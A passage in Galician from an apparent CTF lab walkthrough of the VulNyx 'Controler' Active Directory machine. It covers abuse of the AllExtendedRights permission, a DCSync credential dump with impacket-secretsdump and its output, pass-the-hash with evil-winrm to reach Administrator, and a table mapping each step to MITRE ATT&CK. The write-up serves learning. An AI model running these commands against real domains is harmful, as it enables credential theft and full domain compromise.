
Ruta identificada:

Información sobre AllExtendedRights:
Clicar na relación "AllExtendedRights" e ver "Help" → "Linux Abuse"

AllExtendedRights no dominio permite sen necesidade de ser Domain Admin:
- Realizar operacións DCSync
- Extraer hashes de todos os usuarios (incluído Administrator e krbtgt)
DCSync Attack
Información sobre DCSync:
DCSync é un ataque que simula o comportamento dun Domain Controller.
Como funciona:
- Os DCs replican datos entre eles mediante DRSUAPI
- Se un usuario ten permisos de replicación (
AllExtendedRightsou privilexios DS-Replication-Get-Changes) - Pode solicitar "replicación" e obter todos os hashes NTLM do dominio
Privilexios necesarios:
DS-Replication-Get-Changes(Replicating Directory Changes)DS-Replication-Get-Changes-All(Replicating Directory Changes All)
Ou:
AllExtendedRightsno dominio (que inclúe os anteriores)
Execución de secretsdump:
# Dump de todos os hashes do dominio con secretsdump
impacket-secretsdump 'CONTROL/[usuario2.apelido2]:[contrasinal2]'@IP_VulNyx_Controler
Resultado:
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[nthash-administrator]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:[nthash-guest]:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[nthash-krbtgt]:::
[usuario.apelido]:1103:aad3b435b51404eeaad3b435b51404ee:[nthash-usuario.apelido]:::
[usuario2.apelido2]:1104:aad3b435b51404eeaad3b435b51404ee:[nthash-usuario2.apelido2]:::
[usuario3.apelido3]:1105:aad3b435b51404eeaad3b435b51404ee:[nthash-usuario3.apelido3]:::
[usuario4.apelido4]:1106:aad3b435b51404eeaad3b435b51404ee:[nthash-usuario4.apelido4]:::
[usuario5.apelido5]:1107:aad3b435b51404eeaad3b435b51404ee::[nthash-usuario5.apelido5]::
CONTROLER$:1000:aad3b435b51404eeaad3b435b51404ee:[nthash-CONTROLER$]:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4a5b6c7d8e9f0a1b2
Administrator:aes128-cts-hmac-sha1-96:b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7
Administrator:des-cbc-md5:c3d4e5f6a7b8c9d0
krbtgt:aes256-cts-hmac-sha1-96:d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4a5b6c7d8e9f0a1b2c3d4e5
krbtgt:aes128-cts-hmac-sha1-96:e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b0
krbtgt:des-cbc-md5:f6a7b8c9d0e1f2a3
[*] Cleaning up...
Hashes críticos obtidos:
- Administrator: [nthash-administrator]
- krbtgt: [nthash-krbtgt]
Nota sobre RemoteOperations failed: Este erro é normal porque non temos privilexios para executar operacións remotas vía RPC, pero o método DRSUAPI (DCSync) funciona correctamente.
Pass-the-Hash como Administrator
# Acceso con hash NTLM de Administrator
evil-winrm -i IP_VulNyx_Controler -u 'Administrator' -H '[nthash-administrator]'
Saída:
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
Acceso como Administrator conseguido
Obtención de flag de root
# Navegar ao Desktop de Administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
# Ler flag de root
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
[FLAG_ROOT]
# Verificar privilexios
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
control\administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /groups
GROUP INFORMATION
-----------------
Group Name Type SID Attributes
========================================== ================ ============ ==================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators Alias S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
...
CONTROL\Domain Admins Group S-1-5-21-... Mandatory group, Enabled by default, Enabled group
Dominio comprometido: Acceso total como Domain Administrator
Correspondencia de fases → MITRE ATT&CK – VulNyx: Controler
| Fase | Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|---|
| 1. Recopilación | Descubrimento de rede e DC | Network scanning | T1595 – Active Scanning T1046 – Network Service Discovery |
CWE-200 – Information Exposure |
| Identificación de controlador de dominio | AD reconnaissance | T1590 – Gather Victim Network Information T1018 – Remote System Discovery |
CWE-200 – Information Exposure | |
| 2. Análise | Enumeración de usuarios con Kerberos | Kerberos user enumeration | T1087.002 – Account Discovery: Domain Account T1589.003 – Gather Victim Identity Information: Employee Names |
CWE-200 – Information Exposure |
| Detección de usuario vulnerable a AS-REP Roasting | Kerberos misconfiguration discovery | T1558.004 – Steal or Forge Kerberos Tickets: AS-REP Roasting | CWE-287 – Improper Authentication | |
| 3. Explotación | AS-REP Roasting contra [usuario.apelido] | Kerberos exploitation | T1558.004 – Steal or Forge Kerberos Tickets: AS-REP Roasting | CWE-287 – Improper Authentication |
| Crackeo de hash AS-REP | Offline password cracking | T1110.002 – Brute Force: Password Cracking | CWE-521 – Weak Password Requirements | |
| Enumeración de usuarios do dominio | Domain account enumeration | T1087.002 – Account Discovery: Domain Account | CWE-200 – Information Exposure | |
| Forza bruta sobre [usuario2.apelido2] | Password guessing attack | T1110.001 – Brute Force: Password Guessing T1110.003 – Brute Force: Password Spraying |
CWE-521 – Weak Password Requirements | |
| Acceso con Evil-WinRM como [usuario2.apelido2] | Remote service exploitation | T1021.006 – Remote Services: Windows Remote Management T1078.002 – Valid Accounts: Domain Accounts |
N/A | |
| 4. Post-Explotación | Upload e execución de SharpHound | AD enumeration tool | T1087.002 – Account Discovery: Domain Account T1069.002 – Permission Groups Discovery: Domain Groups |
CWE-200 – Information Exposure |
| Análise con BloodHound | AD relationship analysis | T1087.002 – Account Discovery: Domain Account T1069.002 – Permission Groups Discovery: Domain Groups |
CWE-200 – Information Exposure | |
| Descubrimento de privilexio AllExtendedRights | ACL misconfiguration discovery | T1069.001 – Permission Groups Discovery: Local Groups | CWE-269 – Improper Privilege Management | |
| DCSync attack | Domain credential dumping | T1003.006 – OS Credential Dumping: DCSync T1558 – Steal or Forge Kerberos Tickets |
CWE-269 – Improper Privilege Management | |
| Extracción de todos os hashes NTLM | Mass credential theft | T1003.006 – OS Credential Dumping: DCSync T1552.001 – Unsecured Credentials: Credentials In Files |
CWE-312 – Cleartext Storage of Sensitive Information | |
| Pass-the-Hash como Administrator | Credential reuse | T1550.002 – Use Alternate Authentication Material: Pass the Hash T1078.002 – Valid Accounts: Domain Accounts |
N/A |